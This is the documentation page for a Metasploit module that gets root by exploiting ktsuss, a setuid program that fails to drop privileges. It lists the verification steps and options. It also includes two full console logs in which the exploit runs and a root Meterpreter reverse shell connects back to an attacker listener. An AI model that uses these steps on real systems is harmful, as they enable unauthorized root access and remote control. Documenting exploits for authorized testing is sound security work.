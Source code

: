## Description

  This module attempts to gain root privileges by exploiting
  a vulnerability in ktsuss versions 1.4 and prior.

  The `ktsuss` executable is setuid `root` and does not drop
  privileges prior to executing user specified commands,
  resulting in command execution with `root` privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * ktsuss 1.3 on SparkyLinux 6 (2019.08) (LXQT) (x64)
  * ktsuss 1.3 on SparkyLinux 5.8 (LXQT) (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/ktsuss_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **KTSUSS_PATH**

  Path to `ktsuss` executable (default: `/usr/bin/ktsuss`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### ktsuss 1.3 on SparkyLinux 5.8 (LXQT) (x64)

  ```
  msf > use exploit/linux/local/ktsuss_suid_priv_esc 
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/ktsuss_suid_priv_esc) > check

  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1001(test) euid=0(root) groups=1001(test)
  [+] The target is vulnerable.
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/ktsuss_suid_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1001(test) euid=0(root) groups=1001(test)
  [*] Writing '/tmp/.lBanpIYpAJ60cwt' (389 bytes) ...
  [*] Executing payload ...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.137

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.137:53060) at 2019-08-19 09:18:29 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.137
  OS           : Sparky 5.8 (Linux 4.19.0-5-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### ktsuss 1.3 on SparkyLinux 6 (2019.08) (LXQT) (x64)

  ```
  msf > use exploit/linux/local/ktsuss_suid_priv_esc 
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/ktsuss_suid_priv_esc) > check

  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1002(test) euid=0(root) groups=1002(test)
  [+] The target is vulnerable.
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/ktsuss_suid_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1002(test) euid=0(root) groups=1002(test)
  [*] Writing '/tmp/.R0aTPpB8aHk' (389 bytes) ...
  [*] Executing payload ...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.167

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.167:44534) at 2019-08-19 09:25:48 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.167
  OS           : Sparky 6 (Linux 4.19.0-5-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

